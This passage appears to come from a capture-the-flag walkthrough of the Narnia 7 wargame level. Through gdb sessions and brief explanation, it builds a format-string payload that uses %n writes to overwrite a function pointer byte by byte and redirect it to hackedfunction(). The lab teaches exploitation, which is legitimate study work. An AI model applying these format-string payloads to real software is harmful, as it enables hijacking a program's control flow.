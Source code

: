 goodfunction() = 0x80486e0
hackedfunction() = 0x8048706
>
before : ptrf() = 0x80486e0 (0xffffd60c)
I guess you want to come to the hackedfunction...
>
Breakpoint 1, 0x08048685 in vuln ()
(gdb) x/10x 0xffffd60c
0xffffd60c:	0x0000003c	0xffffd60c	0x4b4e554a	0xffffd60d
0xffffd61c:	0x4b4e554a	0xffffd60e	0x4b4e554a	0xffffd60f
0xffffd62c:	0x38343038	0x66383332
(gdb) p 0x106-0x3c+8
$3 = 210
(gdb) run $(python -c 'print "\x0c\xd6\xff\xffJUNK\x0d\xd6\xff\xffJUNK\x0e\xd6\xff\xffJUNK\x0f\xd6\xff\xff"+"%x%x%x%x%210x%n"')
Starting program: /games/narnia/narnia7 $(python -c 'print "\x0c\xd6\xff\xffJUNK\x0d\xd6\xff\xffJUNK\x0e\xd6\xff\xffJUNK\x0f\xd6\xff\xff"+"%x%x%x%x%210x%n"')
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706
>
before : ptrf() = 0x80486e0 (0xffffd60c)
I guess you want to come to the hackedfunction...
>
Breakpoint 1, 0x08048685 in vuln ()
(gdb) x/10x 0xffffd60c
0xffffd60c:	0x00000106	0xffffd60c	0x4b4e554a	0xffffd60d
0xffffd61c:	0x4b4e554a	0xffffd60e	0x4b4e554a	0xffffd60f
0xffffd62c:	0x38343038	0x66383332
>```
>
> In this specific case the first byte we wanted to write was ```0x06``` and the byte that already resided in memory was ```0x3c```.  Since ```0x3c``` is larger than the byte we want to write, we will have to wrap it around to make it larger.  Essentially we did ```0x106 - 0x3c + 8``` instead of ```0x06 - 0x3c + 8```.  As we can see, this worked and we have successfully overwritten the first byte.  To calculate the next byte we will use the formula ```"the byte we want to write" - "the previous byte"```.  Again, if the byte we want to write is smaller than the previous byte we will need to wrap it to make it larger.  In this case we want to write ```0x87``` but the previous byte was ```0x106```, so we'll wrap the ```0x87``` to ```0x187``` and proceed with the formula.
>
>```
(gdb) p 0x187-0x106
$10 = 129
(gdb) run $(python -c 'print "\x0c\xd6\xff\xffJUNK\x0d\xd6\xff\xffJUNK\x0e\xd6\xff\xffJUNK\x0f\xd6\xff\xff"+"%x%x%x%x%210x%n%129x%n"')
Starting program: /games/narnia/narnia7 $(python -c 'print "\x0c\xd6\xff\xffJUNK\x0d\xd6\xff\xffJUNK\x0e\xd6\xff\xffJUNK\x0f\xd6\xff\xff"+"%x%x%x%x%210x%n%129x%n"')
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706
>
before : ptrf() = 0x80486e0 (0xffffd5fc)
I guess you want to come to the hackedfunction...
>
Breakpoint 1, 0x08048685 in vuln ()
(gdb) x/10x 0xffffd60c
0xffffd60c:	0x00018706	0xffffd600	0x4b4e554a	0xffffd60f
0xffffd61c:	0x38343038	0x66383332	0x64666666	0x66383536
0xffffd62c:	0x64666637	0x30343961
>```
>
> Everything is falling into place.  Lets continue with the ```"the byte we want to write" - "the previous byte"``` formula, wrapping when needed.
>
>```
(gdb) p 0x204-0x187